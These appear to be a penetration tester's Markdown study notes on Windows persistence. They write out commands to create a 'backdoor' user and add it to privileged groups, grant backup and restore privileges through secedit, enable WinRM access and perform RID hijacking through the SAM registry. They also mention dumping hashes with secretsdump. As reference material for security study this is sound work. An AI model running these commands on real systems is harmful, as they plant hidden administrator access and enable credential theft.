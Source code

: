 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Adding users to privileged groups
```powershell
# Creating user
net user backdoor /add

# Adding user to the administrators group
net localgroup "administrators" backdoor /add

# Adding user to "Backup Operators" group
net localgroup "Backup Operators" backdoor /add

# Adding user to "Remote Management Users" for RDP
net localroup "Remote Management users" backdoor /add
```

- By default, the UAC strips the remote user of it's administrative privs, this can be disabled. [LocalAccountTokenFilterPolicy](Policies.md#LocalAccountTokenFilterPolicy)
- As a member of "Backup Operators", we can now save system and sam hives from the regsitery and use Impacket to get the system hash. [secretsdump.py](TechLexicon/Penetration%20Testing/Reference/Tools/Impacket.md#secretsdump.py)

### Assigning privileges to users.
- By default, the 'backup Operators' have two privileges:
	- SeBackupPrivilege: User can read write any file in the system, ignoring any DACL in place
	- SeRestorePrivilege: User can read read any file in the system, ignoring any DACL in place
- A user can be assigned these privileges using `secedit` command.
```powershell
# Export current configuration
secedit /export /cfg config.inf

# Edit the config.inf to add the username in front of the privielge
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor

# convert the config.inf file to config.sdb
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cnf /config.inf
```

### Enable win-rm without adding user to "Remote Management Users"
- Add the user to the security descriptor of Win-RM.
```powershell
# this will launch the configuration windows for the Win-RM's security descriptor
Set-PSSessionconfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

### RID hijacking
[SID](TechLexicon/Penetration%20Testing/Reference/Windows/Windows%20Internals/Uncategorized/SID.md)
- Changing the effective RID of a user to RID of an administrator so that when the user logs in, it will have the same access tokens as an administrator.
- Effective RID is stored in `F` key at:
```cmd
HKLM\SAM\SAM\Domain\Account\Users\RID(hex)
```
- SAM is restricted to SYSTEM only.
```powershell
PsExec64.exe -i -s regedit
```
- Effective RID is located at `0x30` location in little endian format
- After changing the effective RID to 500 (0x01F4), the next time users logs in, it will get Administrators privileges.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
